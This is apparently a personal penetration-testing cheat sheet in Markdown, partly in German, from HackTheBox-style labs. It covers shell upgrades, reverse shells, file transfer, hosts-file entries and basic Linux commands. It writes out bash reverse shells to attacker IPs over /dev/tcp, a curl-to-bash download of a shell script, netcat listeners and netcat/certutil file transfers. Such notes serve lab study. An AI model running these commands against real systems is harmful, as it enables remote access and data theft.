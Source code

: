 ## Shell


### bin/bash vs bin/shell
- at bin/shell only $ is shown
- at bin/bash the whole path is shown

### Bad Shells
- sudo -l for example dont delvier anything
- some stuff is not working well
- can happen when over exploits etc
- no tty present

#### Reasons for bad shells
- wrong shell architecture x86 vs x64
- wrong shell type (bash, sh, zsh, etc.)
- shell over exploit, includes, etc.

### Good Shells
- sudo -l delivers something
- maybe even tab completion
- print 
- meterpreter shells are also nice often

### Upgrade a shell
- metersploit can do it
- [Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) sometimes didnt work
```sh
# when commands are restricted
ssh guest@192.254.1.12 -t "bash --noprofile" # --noprofile can work

#curl a shell
echo "/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.14.190/1338 0>&1'" > shell.sh
python3 -m http.server 8001
nc -lvnp 1338
curl 10.10.14.190:8001/shell.sh|bash

# phyton or phyton3 import pty
python -c 'import pty; pty.spawn("/bin/bash")'
#or 
echo os.system('/bin/bash') # or echo os.system('/bin/sh') 
#or
/bin/sh -i # or /bin/bash -i
```

### Reverse Shell
Shell from the target to the attacker.
- possible to connect throught firewall
#### Some Reverse Shell generators / links
- [Pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [High on Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
- [Revshells](https://www.revshells.com/)

### Transfer files
- httb, ftp, ssh, smb, scp, curl, wget, netcat etc
```sh
#http python server
python3 -m http.server 8000
wget http://yourip:8000/file

```
simple http put server to put from victim to attacker
- https://gist.github.com/fabiand/5628006
```sh
#windows to get a file from http server
certutil -urlcache -split -f "http://" outputfile

#curl or wget ftp or http
wget ftp:// 

#netcat
nc -l -p 1234 > out.file #receiving box
nc -w 3 [destination] 1234 < out.file #sending box destination is the ip of the receiving box

#scp
scp file user@ip:/path/to/file # sending
```

### Hosts File
echo to host file

```sh
echo "10.129.152.215 unika.htb" | sudo tee -a /etc/hosts
```

```sh
echo "10.129.108.117 thetoppers.htb" | sudo tee -a /etc/hosts
```

```sh
echo "10.129.251.52 dev.devvortex.htb" | sudo tee -a /etc/hosts
```

```sh
echo "10.129.1.27 ignition.htb" | sudo tee -a /etc/hosts
```

liste aller offenen Ports

```sh
-l: Display only listening sockets.
-t: Display TCP sockets.
-n: Do not try to resolve service names.

ss -tln

```
```sh
sudo netstat -tulnp
```

open reverse shell

### Reverse shell Server
- Kali contains a share folder with shell scrips
```sh
#create a listener for shell session
nc -nvlp 1337

#!/bin/bash
bash -i >& /dev/tcp/10.10.15.71/1337 0>&1

python3 -m http.server 8000
```
### other commands need to know

#### uname
```sh
uname -a #print system information
```
#### get own ip
```
ip a | grep tun0 

```
#### pwd
```sh
pwd #print working directory
```
```sh
python -m http.server 8001
```

#### Differences between files
```sh
diff -y file1 file2
-y # side by side
```

#### SU & Sudo
```sh
su otheruser #switch user
sudo -l #list sudo rights
sudo su #switch to root
```

#### Locate
Suchen von Dateien
```sh
locate PowerUp.ps1
```